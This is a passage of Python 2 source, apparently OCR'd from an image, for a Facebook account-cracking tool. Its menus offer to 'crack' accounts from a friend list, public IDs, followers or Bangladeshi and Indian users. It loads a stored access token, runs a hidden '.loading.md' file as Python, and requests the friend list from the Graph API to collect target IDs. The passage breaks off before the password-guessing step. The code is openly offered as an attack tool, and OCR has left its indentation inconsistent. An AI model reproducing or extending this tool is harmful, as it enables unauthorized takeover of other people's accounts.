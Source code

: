         os.system("rm -rf .login.txt")
        time.sleep(1)
        login_choice()
    os.system('clear')
    print logo
    os.system("python3 .loading.md")
    os.system('clear')
    print logo
    print("\t  \033[1;93m[+] Name : "+name)
    print("\033[1;97m--------------------------------------------------")
    print("\033[1;97m[1]\033[1;91m-⋄-\033[1;97mClone Frienlist and Public ID")
    print("\033[1;97m[2]\033[1;91m-⋄-\033[1;97mClone Bangladesh and India")
    print("\033[1;97m[0]\033[1;91m-⋄-\033[1;97mlogout")
    print("\033[1;97m--------------------------------------------------") 
    menu_select()
def menu_select():
    option = raw_input("\n╰─➣ ")
    if option =="1":
        crack()
    if option =="2":
        bangla_india()
    elif option =="0":
        logout()
        os.system("rm -rf .login.txt")
        time.sleep(1)
        print("\033[1;92m[✓] Logged Out Successfully\033[0;97m")
        os.system("exit")
    else:
        print("[!] Please Select a Valid Option")
        menu_select()
		
def crack():
	global token
	os.system("clear")
	try:
		token=open(".login.txt","r").read()
	except IOError:
		print("[!] Error 404 . Token Not Found")
		os.system("rm -rf .login.txt")
		time.sleep(1)
		login()
	os.system("clear")
	print logo
	os.system("python3 .loading.md")
        os.system('clear')
        print logo
	print ("\033[1;97m[1]\033[1;91m-⋄-\033[1;97mCrack From Friend List")
	print ("\033[1;97m[2]\033[1;91m-⋄-\033[1;97mCrack From Public ID")
	print ("\033[1;97m[3]\033[1;91m-⋄-\033[1;97mCrack From Followers")
	print ('\033[1;97m[0]\033[1;91m-⋄-\033[1;97mBack')
	print("\033[1;97m--------------------------------------------------")
	crack2()
def crack2():
	select = raw_input("\n╰─➣ ")
	id=[]
	oks=[]
	cps=[]
	if select=="1":
		os.system("clear")
		print logo
		print("\t\033[1;93m  Clone From Frienlist\033[1;0m")
		print("\033[1;97m--------------------------------------------------")
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+token, headers=header)
		z = json.loads(r.text)